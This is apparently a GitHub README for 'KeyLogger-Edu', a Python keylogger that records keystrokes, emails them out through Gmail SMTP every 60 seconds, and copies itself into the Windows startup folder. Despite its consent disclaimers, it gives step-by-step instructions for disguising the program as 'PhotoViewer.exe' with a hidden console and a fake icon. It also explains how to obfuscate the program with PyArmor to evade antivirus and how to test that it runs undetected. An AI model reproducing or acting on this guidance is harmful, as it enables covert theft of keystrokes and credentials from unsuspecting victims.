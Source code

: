 # KeyLogger-Edu

## Overview
KeyLogger-Edu is a Python-based proof-of-concept project by **Pratham Mejari** designed for educational purposes to demonstrate keyboard event logging. It captures keystrokes, saves them to a local file (`keylog.txt`), and sends them via email using Gmail's SMTP server. This project is intended for learning about input monitoring, threading, and ethical security testing in a controlled environment.

**⚠️ Important**: This tool must only be used with explicit user consent or for authorized security testing. Unauthorized keylogging is illegal and unethical. Pratham Mejari and contributors are not responsible for misuse.

## Features
- Captures keystrokes (letters, spaces, Enter, Backspace, etc.) using the `pynput` library.
- Logs keystrokes to `keylog.txt` in the same directory as the script.
- Sends logged keystrokes via email every 60 seconds using Gmail's SMTP server.
- Includes startup persistence for Windows (copies to startup folder for auto-run on boot).
- Reports the executable’s file location via email for debugging.
- Can be compiled into a standalone executable for systems without Python.

## Prerequisites
- **Python 3.8–3.10** (for running the script directly).
- **pynput**: `pip install pynput` (for key event handling).
- **PyInstaller**: `pip install pyinstaller` (for creating executables).
- **PyArmor** (optional): `pip install pyarmor` (for antivirus evasion).
- **Gmail Account**: For sending emails, with an App Password enabled.
- A system with Python installed for development (not required on the target system if compiled).

## Setup Instructions
1. **Clone the Repository**:
   ```bash
   git clone https://github.com/pratham-mejari/KeyLogger-Edu.git
   cd KeyLogger-Edu
   ```

2. **Install Dependencies**:
   ```bash
   pip install pynput
   ```

3. **Configure Email Settings**:
   - Open `key.py` and update the following lines with your Gmail details:
     ```python
     EMAIL_ADDRESS = "your_email@gmail.com"  # Your Gmail address
     EMAIL_PASSWORD = "your_app_password"    # Your Gmail App Password
     TO_EMAIL = "receiver_email@gmail.com"  # Where logs are sent
     ```
   - To get a Gmail App Password:
     - Go to [myaccount.google.com](https://myaccount.google.com) > Security.
     - Enable **2-Step Verification**.
     - Go to **App Passwords**, select “Other” (e.g., “KeyLogger”), and generate a 16-character password (e.g., `xxxx yyyy zzzz wwww`).
     - Copy this into `EMAIL_PASSWORD`.

4. **Run the Script**:
   ```bash
   python3 key.py
   ```
   - Type some keys to test. Check `keylog.txt` in the same directory and your `TO_EMAIL` inbox (including spam/junk) for emails with subject “Keylog Update” or “Keylogger Location Report”.

## Making the Script Executable
To run the keylogger on a system without Python or `pynput`, compile it into a standalone executable using PyInstaller. This bundles Python, `pynput`, and all dependencies into a single file (e.g., `.exe` for Windows or a binary for Linux).

### Steps to Create an Executable
1. **Install PyInstaller**:
   ```bash
   pip install pyinstaller
   ```

2. **Compile the Script**:
   - For Windows targets (recommended for stealth):
     ```bash
     pyinstaller --onefile --noconsole --name PhotoViewer key.py
     ```
     - `--onefile`: Creates a single `.exe` (e.g., `PhotoViewer.exe`).
     - `--noconsole`: Prevents a command window from appearing (Windows only).
     - Output: `./dist/PhotoViewer.exe`.
   - For Linux targets:
     ```bash
     pyinstaller --onefile --name PhotoViewer key.py
     ```
     - Output: `./dist/PhotoViewer`.
     - Note: Update `LOG_FILE = "/tmp/keylog.txt"` in `key.py` to avoid permission issues on Linux.

3. **Optional: Change the Icon** (Windows):
   - Download an `.ico` file (e.g., from [iconarchive.com](https://www.iconarchive.com)) to make the executable look like a legitimate app (e.g., a camera or game icon).
   - Run:
     ```bash
     pyinstaller --onefile --noconsole --name PhotoViewer --icon=/path/to/icon.ico key.py
     ```

4. **Optional: Avoid Antivirus Detection**:
   - Some antivirus software may flag the executable due to its keylogging behavior. To reduce detection, obfuscate with PyArmor:
     ```bash
     pip install pyarmor
     pyarmor pack key.py
     ```
     - Output: An obfuscated executable in `./dist`.
   - Test on a system with antivirus to ensure it runs undetected.

5. **Test the Executable**:
   - Copy `PhotoViewer.exe` (Windows) or `PhotoViewer` (Linux) to a test system without Python or `pynput`.
   - Run it:
     - Windows: Double-click `PhotoViewer.exe`.
     - Linux: `chmod +x PhotoViewer && ./PhotoViewer`.
   - Verify:
     - `keylog.txt` is created in the same directory (or `/tmp/keylog.txt` on Linux).
     - Emails are sent to `TO_EMAIL` with subjects “Keylog Update” (keystrokes) and “Keylogger Location Report” (file locations).
     - On Windows, check `C:\Users\[Username]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\PhotoViewer.exe` for the startup copy.

## How It Works
- **Key Logging**: Captures keystrokes using `pynput` and saves them to `keylog.txt`.
- **Email Sending**: Every 60 seconds, sends `keylog.txt` contents to `TO_EMAIL` via Gmail’s SMTP server.
- **Startup Persistence**: On Windows, copies `PhotoViewer.exe` to the startup folder to run on boot.
- **Location Reporting**: Sends an initial email with the paths of the original and startup copies of the executable.

## Ethical Considerations
- **Use with Consent**: Only run this on systems you own or have explicit permission to monitor. Unauthorized keylogging is illegal in many jurisdictions and violates privacy laws.
- **Educational Purpose**: This project is for learning about Python, key event handling, threading, and SMTP integration.
- **GitHub Compliance**: Ensure compliance with GitHub’s [Acceptable Use Policies](https://docs.github.com/en/site-policy/acceptable-use-policies/github-acceptable-use-policies). Malicious use may lead to repository suspension.

## Troubleshooting
- **No Emails**:
  - Verify `EMAIL_ADDRESS`, `EMAIL_PASSWORD` (App Password), and `TO_EMAIL` are correct.
  - Check spam/junk folder in `TO_EMAIL`.
  - Test email setup with:
    ```python
    import smtplib
    from email.mime.text import MIMEText
    msg = MIMEText("Test email")
    msg['Subject'] = 'Test'
    msg['From'] = "your_email@gmail.com"
    msg['To'] = "receiver_email@gmail.com"
    with smtplib.SMTP_SSL('smtp.gmail.com', 465) as server:
        server.login("your_email@gmail.com", "your_app_password")
        server.sendmail("your_email@gmail.com", "receiver_email@gmail.com", msg.as_string())
    ```
- **No Logs**:
  - Ensure `pynput` is installed for script mode (`pip install pynput`).
  - On Linux, run `xhost +local:root` if key capture fails as root.
  - Check file permissions for `keylog.txt`.
- **Antivirus Flags Executable**:
  - Use PyArmor or compile on a Windows machine for better evasion.
  - Test on a clean virtual machine to identify antivirus triggers.

## License
This project is licensed under the MIT License. See the `LICENSE` file for details.

## Author
- **Pratham Mejari**

## Disclaimer
This is an educational tool developed by Pratham Mejari for learning purposes. The author is not responsible for any misuse or damage caused by this software. Use responsibly and legally.